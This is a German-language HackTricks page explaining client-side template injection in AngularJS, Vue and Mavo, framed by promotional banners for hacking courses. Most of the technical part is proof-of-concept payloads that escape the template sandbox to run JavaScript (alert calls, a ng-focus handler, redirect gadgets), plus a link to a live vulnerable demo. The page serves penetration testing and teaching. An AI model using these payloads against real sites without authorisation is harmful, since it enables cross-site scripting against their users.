 # Client Side Template Injection (CSTI)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vertiefe dein Fachwissen in **Mobilsicherheit** mit der 8kSec Academy. Meistere die Sicherheit von iOS und Android durch unsere selbstgesteuerten Kurse und erhalte ein Zertifikat:

{% embed url="https://academy.8ksec.io/" %}

## Zusammenfassung

Es ist wie eine [**Server Side Template Injection**](ssti-server-side-template-injection/), aber im **Client**. Die **SSTI** kann es dir ermöglichen, **Code** auf dem Remote-Server auszuführen, die **CSTI** könnte es dir ermöglichen, **willkürlichen JavaScript**-Code im Browser des Opfers auszuführen.

**Das Testen** auf diese Schwachstelle ist sehr **ähnlich** wie im Fall von **SSTI**, der Interpreter erwartet **eine Vorlage** und wird sie ausführen. Zum Beispiel, mit einem Payload wie `{{ 7-7 }}`, wenn die App **anfällig** ist, wirst du eine `0` sehen, und wenn nicht, wirst du das Original sehen: `{{ 7-7 }}`

## AngularJS

AngularJS ist ein weit verbreitetes JavaScript-Framework, das über Attribute, die als Direktiven bekannt sind, mit HTML interagiert, wobei eine bemerkenswerte **`ng-app`** ist. Diese Direktive ermöglicht es AngularJS, den HTML-Inhalt zu verarbeiten, wodurch die Ausführung von JavaScript-Ausdrücken innerhalb doppelter geschweifter Klammern ermöglicht wird.

In Szenarien, in denen Benutzereingaben dynamisch in den HTML-Body eingefügt werden, der mit `ng-app` gekennzeichnet ist, ist es möglich, willkürlichen JavaScript-Code auszuführen. Dies kann erreicht werden, indem die Syntax von AngularJS innerhalb der Eingabe genutzt wird. Im Folgenden sind Beispiele aufgeführt, die zeigen, wie JavaScript-Code ausgeführt werden kann:
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
Du kannst ein sehr **einfaches Online-Beispiel** der Verwundbarkeit in **AngularJS** unter [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/) und in [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression) finden.

{% hint style="danger" %}
[**Angular 1.6 entfernte die Sandbox**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html), sodass ab dieser Version ein Payload wie `{{constructor.constructor('alert(1)')()}}` oder `<input ng-focus=$event.view.alert('XSS')>` funktionieren sollte.
{% endhint %}

## VueJS

Du kannst eine **verwundbare Vue**-Implementierung unter [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh) finden.\
Funktionierender Payload: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)

Und der **Quellcode** des verwundbaren Beispiels hier: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
Ein wirklich guter Beitrag zu CSTI in VUE ist zu finden unter [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
Credit: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V2**
```
{{constructor.constructor('alert(1)')()}}
```
Credit: [Mario Heiderich](https://twitter.com/cure53berlin)

**Überprüfen Sie weitere VUE-Payloads in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## Mavo

Payload:
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**Weitere Payloads in** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

## **Brute-Force Erkennungsliste**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vertiefen Sie Ihr Fachwissen in **Mobile Security** mit der 8kSec Academy. Meistern Sie die Sicherheit von iOS und Android durch unsere selbstgesteuerten Kurse und erhalten Sie ein Zertifikat:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
